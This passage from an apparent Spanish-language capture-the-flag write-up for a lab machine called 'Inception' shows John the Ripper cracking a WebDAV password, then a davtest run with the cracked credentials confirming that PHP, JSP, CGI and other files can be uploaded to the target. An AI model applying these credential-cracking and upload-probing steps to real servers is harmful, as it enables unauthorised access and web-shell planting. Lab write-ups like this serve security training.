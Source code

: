 ```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
babygurl69       (webdav_tester)     
1g 0:00:00:00 DONE (2023-05-05 13:29) 10.00g/s 226560p/s 226560c/s 226560C/s mario12..ilovetodd
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Con esto hemos obtenido una clave.
Ahora intentare enumerar la ruta que encontramos en el archivo 000-default.conf
http://10.129.192.85/webdav\_test\_inception
<img class="img" src="/assets/img/machines/Inception/6.png" width="1000">
Me pide un usuario y clave. Le daremos los que acabamos de encontrar webdav\_tester:babygurl69 funciona.
Pero sigue sin dejarme ver el contenido de la web.
<img class="img" src="/assets/img/machines/Inception/7.png" width="800">
Enumerando un poco mas encontre que puedo subir archivos a esta ruta.
```bash
davtest -url http://10.129.192.85/webdav_test_inception -auth webdav_tester:babygurl69 
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.129.192.85/webdav_test_inception
********************************************************
NOTE	Random string for this session: eOS0iq
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq
********************************************************
 Sending test files
PUT	jsp	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.jsp
PUT	jhtml	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.jhtml
PUT	pl	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.pl
PUT	cgi	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.cgi
PUT	cfm	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.cfm
PUT	php	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.php
PUT	shtml	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.shtml
PUT	txt	SUCCEED:	http://10.129.192.85/webdav_test_inception/DavTestDir_eOS0iq/davtest_eOS0iq.txt
```
